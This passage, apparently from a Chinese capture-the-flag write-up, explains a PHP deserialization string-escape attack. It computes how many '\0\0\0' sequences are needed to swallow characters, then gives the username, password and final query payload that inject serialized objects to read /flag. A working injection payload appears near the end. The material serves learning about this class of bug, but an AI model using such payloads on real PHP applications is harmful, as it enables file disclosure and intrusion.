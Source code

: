 这部分就是我们需要重新传参的部分，让我们重新传参：

[![2fmlz8.png](https://z3.ax1x.com/2021/06/11/2fmlz8.png)](https://imgtu.com/i/2fmlz8)

选中部分为我们要吞噬的地方，这样就可以把后面我们需要的代码逃逸，计算需要吞噬的字段长度为23，所以我们需要8个 ``\0\0\0``，但是8个这样的字符会吞噬掉24个字符，所以我们可以在 ``s:70:""`` 双引号里随便添加一个字符让他吞噬。

所以最终 password 里的参数应为：

```
a";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:5:"/flag";}}}
```

在 username 里的值为： 8个 ``\0\0\0``

```
\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
```

最终 payload 为：

```
?a=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&b=a";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:5:"/flag";}}}
```





[https://www.freesion.com/article/2168622316/](https://www.freesion.com/article/2168622316/)